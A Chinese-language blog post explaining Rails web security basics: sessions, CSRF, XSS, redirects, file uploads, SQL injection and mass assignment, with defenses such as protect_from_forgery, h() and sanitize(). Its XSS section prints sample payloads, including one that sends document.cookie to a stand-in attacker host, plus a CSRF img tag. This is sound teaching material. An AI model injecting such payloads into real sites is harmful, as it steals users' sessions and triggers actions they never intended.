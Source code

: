 ```yaml
---
layout: post
title: Web安全
permalink: web-security
---
```


Rails作为一个成熟的框架，已经默认提供了必要的安全机制，从而使得小白也能初始化出安全的站点。但安全还在人心，
只有在开发中时刻注意，才不会留下漏洞。

一定要对网站的入口慎之又慎，不要理所当然用户会按照你的设计去进行输入！

# Sessions

> HTTP is a stateless protocol. Sessions make it stateful.

Session机制是为了解决web的无状态特性，通过浏览器回传cookies来确认当前的session。


# Cross-Site Request Forgery (CSRF)
CSRF，跨站伪装请求。

CSRF的场景是：访问一个黑站，结果在里面有一个链接被浏览器自动加载访问，而这个链接可能执行是删除、关注等操作。

起因：在浏览器请求一个URL时，会顺便得到这个网站的cookies。有了cookies就有了权限，如果请求的那个
URL是在另一个网站中嵌入的，比如：

```html
<img src="http://target.com/1/destroy" />
```

那么就会执行相应的操作。浏览器并不知道这是否是用户的本意，只会按部就班的去解析，遇到img的src就去请求。

应对：对非GET需要验证安全令牌，只有通过才能给执行。而这个安全令牌是Server在render表单等时自己生成的。

在Rails中，只需要在最顶层的ApplicationController中加入：

```rb
protect_from_forgery with: :exception
```

然后在最顶层的layout文件的head中加入：

```
<%= csrf_meta_tags %>
```

# Cross-Site Scripting (XSS)
跨站执行脚本，等于别人可以在你的网站页面上写自己的代码。十分恐怖！

流程：黑客注入代码，网站保存，受害者打开网站执行代码。

## HTML/JavaScript 注入

```html
<script>alert('Hello');</script>

<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">


<script>document.write(document.cookie);</script>
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>

```

## 防御

使用escapeHTML()或它的alias h()对二次显示的输入内存进行转义，这样：

```
字符& " < >就变成了&amp; &quot; &lt;和&rt;了。
```

能被浏览器还原，但是不能执行。

但是有时确实需要让用户输入带标签的文本啊！

使用[sanitize()](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html)，
它只运行白名单里的tag和attributes显示：

```rb
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

# Redirection
防止跳到钓鱼网站。

# File Upload/Download
上传下载时，对文件名进行过滤，保证其安分呆在指定的目录里。

# SQL 注入
尽量使用已经封装好的查询语句，而不是自己写SQL。

# mass assigns

不要把 id 也允许用户修改。

当然默认都不会，可如果自己重新了 model 的 to_param 函数，换了 id 呢，比如 name。

一般会允许用户修改 name， 那它就能改成别人的 name 啊！

但如果进行了 uniqueness 验证，修改相同的 name id 是过不了，除非不相同，那么
在提交了修改 name id form 后，Rails 会需要调用 update 方法，就不找不到 user 了。
但还是会产生 nil error，这也算被动防御了。

而且关系都是用 id 关联的，所以影响不大。

# 参考
* http://guides.rubyonrails.org/security.html
